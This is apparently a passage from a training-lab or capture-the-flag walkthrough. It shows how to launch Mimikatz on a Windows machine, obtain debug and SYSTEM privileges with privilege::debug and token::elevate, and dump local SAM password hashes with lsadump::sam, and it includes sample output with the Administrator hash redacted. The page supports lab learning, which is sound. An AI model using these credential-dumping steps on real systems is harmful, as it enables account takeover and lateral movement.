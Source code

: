 If this is successful then you should get some pretty ASCII art and a new terminal prompt:

Mimikatz Prompt

```powershell
  
PS C:\Windows\system32> \\tsclient\share\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

Correct Answer

When we start Mimikatz we usually have to execute two commands before we start dumping hashes:

-    `privilege::debug` -- this obtains debug privileges which (without going into too much depth in the Windows privilege structure) allows us to access other processes for "debugging" purposes.
-   `token::elevate` -- simply put, this takes us from our administrative shell with high privileges into a `SYSTEM` level shell with maximum privileges. This is something that we have a _right_ to do as an administrator, but that is not usually possible using normal Windows operations.  
    

With these commands executed, we are ready to dump some passwords hashes!  

 Completed

There are a variety of commands we _could_ use here, all of which do slightly different things. The command that we _will_ use is: `lsadump::sam`.

When executed, this will provide us with a list of password hashes for every account on the machine (with some extra information thrown in as well). The Administrator account password hash should be fairly near the top of the list:

Using Mimikatz

```html
  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

---

mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624

SAMKey : 6e708461100b4988991ce3b4d8b1784e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: [REDACTED]
```